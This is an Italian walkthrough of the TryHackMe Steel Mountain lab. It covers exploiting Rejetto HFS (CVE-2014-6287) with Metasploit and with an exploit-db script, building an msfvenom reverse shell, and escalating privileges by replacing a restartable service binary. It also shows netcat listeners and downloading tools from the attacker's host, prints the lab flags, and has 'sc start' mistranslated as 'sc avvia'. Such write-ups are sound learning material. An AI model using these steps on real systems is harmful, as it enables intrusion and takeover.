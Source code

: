 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/steelmountain

Chi è il dipendente del mese?
ispeziono pagina http://10.10.6.100/
```
Bill Harper
```

Esegui la scansione della macchina con nmap. Qual è l'altra porta su cui è in esecuzione un server web?
```
nmap -sV -O -Pn 10.10.6.100
```
```
8080
```
Dai un'occhiata all'altro server web. Quale file server è in esecuzione?
```
 Rejetto HTTP File Server
```
Qual è il numero CVE per sfruttare questo file server?
```
CVE-2014-6287
```
Usa Metasploit per ottenere una shell iniziale. Qual è il flag utente?
```
msfconsole
```

```
search rejetto
```

```
use exploit/windows/http/rejetto_hfs_exec
```

```
show options
```

```
set RHOST 10.10.6.100
```

```
set RPORT 8080
```

```
run
```

```
search -f user.txt
```
```
c:\Users\bill\Desktop\user.txt 
```

```
 cat /Users/bill/Desktop/user.txt
```
```
b04763b6fcf51fcd7c13abc7db4fd365
```
oppure
```
shell
```

```
cd c:\Users\bill\Desktop
```

```
type user.txt
```

```
b04763b6fcf51fcd7c13abc7db4fd365
```

Ora che hai una shell iniziale su questa macchina Windows come Bill, possiamo enumerare ulteriormente la macchina e aumentare i nostri privilegi a root!

Rispondi alle domande qui sotto

Per enumerare questa macchina, utilizzeremo uno script PowerShell chiamato PowerUp, il cui scopo è valutare una macchina Windows e determinare eventuali anomalie:  " _PowerUp mira a essere un centro di raccolta dei comuni_  _vettori di escalation dei privilegi di Windows che si basano su configurazioni errate_ " .

Puoi scaricare lo script [qui](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) .  Se vuoi scaricarlo tramite la riga di comando, fai attenzione a non scaricare la pagina GitHub al posto dello script grezzo.  Ora puoi usare il  comando **upload in Metasploit per caricare lo script.**

```
cd /opt
```

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

```
upload /opt/PowerUp.ps1
```
Per eseguirlo usando Meterpreter, digiterò **load powershell**  in meterpreter. Quindi entrerò  in powershell immettendo **powershell_shell** :

```
load powershell
```

```
powershell_shell
```

Prestate molta attenzione all'opzione CanRestart che è impostata su true. Qual è il nome del servizio che viene visualizzato come vulnerabilità _del percorso di servizio non quotata ?_

```
. .\PowerUp.ps1
```

```
Invoke-AllChecks
```

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

```

```
AdvancedSystemCareService9
```
	vulnerabilità

L'opzione CanRestart, se vera, ci consente di riavviare un servizio sul sistema, la directory dell'applicazione è anche scrivibile. Ciò significa che possiamo sostituire l'applicazione legittima con quella dannosa, riavviare il servizio, che eseguirà il nostro programma infetto!

Utilizzare msfvenom per generare una shell inversa come eseguibile di Windows.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.216.158 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Carica il tuo binario e sostituisci quello legittimo. Quindi riavvia il programma per ottenere una shell come root.  

**Nota:** il servizio è risultato non quotato (e potrebbe essere sfruttato utilizzando questa tecnica); tuttavia, in questo caso abbiamo sfruttato i permessi file deboli sui file del servizio.

Questo può quindi essere caricato sul computer di destinazione tramite la shell meterpreter (uscire prima dalla sessione di PowerShell tramite CTRL+C):
```
upload /root/Advanced.exe
```
```
[*] Uploading  : /root/Advanced.exe -> Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /root/Advanced.exe -> Advanced.exe
[*] Completed  : /root/Advanced.exe -> Advanced.exe

```

Tornando alla shell di Windows possiamo interrompere l'esecuzione del servizio legittimo e quindi sostituire il file dell'applicazione con il binario dannoso:

```
shell
```

```
sc stop AdvancedSystemCareService9
```

```
copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```
Prima di riavviare il servizio, dobbiamo impostare un listener nel nostro terminale locale:
```
nc -nlvp 4443
```
Il servizio può quindi essere riavviato all'interno della shell di Windows:
```
sc start AdvancedSystemCareService9
```

```
cd C:\users\administrator\desktop
```

```
more root.txt
```

```
9af5f314f57607c00fd09803a587db80
```

==Accesso ed escalation senza Metasploit==

Ora completiamo la stanza senza usare Metasploit .

Per questo utilizzeremo PowerShell e WinPEAS per enumerare il sistema e raccogliere le informazioni rilevanti da inoltrare a  

Rispondi alle domande qui sotto

Per iniziare useremo lo stesso CVE. Tuttavia, questa volta usiamo questo [exploit.](https://www.exploit-db.com/exploits/39161)

*Nota che affinché tutto funzioni, è necessario che un server web e un listener netcat siano attivi contemporaneamente!*

Per iniziare, avrai bisogno di un binario statico netcat sul tuo server web. Se non ne hai uno, puoi scaricarlo da [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) !

Dovrai eseguire l'exploit due volte. La prima volta estrarrà il nostro binario netcat nel sistema e la seconda eseguirà il nostro payload per ottenere un callback!

Scarichiamo prima i files poi
```
cd /root
```

```
nano  39161.py
```
	modifichiamo LHOST LPORT 4433
```
2to3 -w 39161.py
```
	convertiamo in python3
```
mv ncat.exe nc.exe
```

```
python -m SimpleHTTPServer 80
```

```
 nc -lvnp 4433
```

```
python3 39161.py 10.10.225.84 8080
```
```
python3 39161.py 10.10.225.84 8080
```

Congratulazioni, ora siamo sul sistema. Ora possiamo estrarre winPEAS sul sistema usando powershell -c.

Una volta eseguito winPeas, vediamo che ci indirizza verso percorsi non quotati. Possiamo vedere che ci fornisce anche il nome del servizio che sta eseguendo.

Utilizzeremo  winPEAS, che può essere scaricato [qui](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Release?ref=blog.razrsec.uk) .
https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx86.exe


```
powershell -c wget "http://10.11.116.149/winPEASx86.exe" -outfile "winPEAS.exe"
```

```
winPEAS.exe
```

Quale comando PowerShell -c potremmo eseguire per scoprire manualmente il nome del servizio?

```
powershell -c "Get-Service"
```

Ora passiamo all'Amministratore con le nostre nuove conoscenze.

Genera il tuo payload usando msfvenom e caricalo sul sistema usando PowerShell.

  
Ora possiamo spostare il nostro payload nella directory non quotata indicata da winPEAS e riavviare il servizio con due comandi.

Per prima cosa dobbiamo interrompere il servizio. Possiamo farlo nel seguente modo:

sc stop AdvancedSystemCareService9

Seguito a breve da;

sc avvia AdvancedSystemCareService9

Una volta eseguito questo comando, otterrai una shell come amministratore sul nostro listener!